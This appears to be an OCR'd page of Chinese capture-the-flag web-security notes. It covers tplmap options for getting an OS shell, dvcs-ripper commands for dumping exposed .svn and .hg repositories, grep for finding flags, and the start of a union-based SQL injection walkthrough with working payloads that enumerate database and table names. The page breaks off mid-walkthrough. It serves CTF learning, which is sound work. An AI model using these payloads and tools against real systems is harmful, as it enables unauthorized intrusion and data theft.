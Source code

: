 `tplmap`

```bash
-d DATA：这个参数允许你设置HTTP请求的body内容。
-H HEADER：这个参数允许你设置HTTP请求的header。
-X METHOD：这个参数允许你设置HTTP请求的方法，如GET、POST等。
--os-shell：这个参数会尝试获取一个操作系统shell。
--os-cmd：这个参数允许你执行一个操作系统命令。
```

### svn泄漏

```bash
工具：dvcs-ripper tree
cd dvcs-ripper
perl ./rip-svn.pl -v -u url/.svn/
#ls -la -> ls -la.svn
tree -a .svn #-a代表显示隐藏文件
cat ...#根据具体文件查看信息
```

### hg泄漏

```bash
perl ./rip-hg.pl -v -u http://challenge-02ead012a55810f3.sandbox.ctfhub.com:10800/.hg
```

### 查询具体所含数据

`grep -ir flag`这是一个使用 grep 命令在文件中搜索特定字符串（本例中为 "flag"）的命令行指令。-i 选项表示大小写不敏感，-r 选项表示递归搜索文件夹

```bash
-i：忽略大小写
-n：显示匹配行的行号
-r：递归搜索文件夹中的文件
-w：查找整个单词匹配
-l：仅列出包含匹配项的文件名
-c：计算匹配行的数量
```

## 密码爆破

-弱

-常用

## sql注入

正道在此：！

```bash
1.查当前数据库名称

 ' or 1=1 union select 1,database(),3 limit 1,2;#-- 

得到数据库名称web2
2.查看数据库表的数量

' or 1=1 union select 1,(select count(*) from information_schema.tables where table_schema = 'web2'),3 limit 1,2;#-- 

得到数据库表数量为2
3.查表的名字

第一个表:

```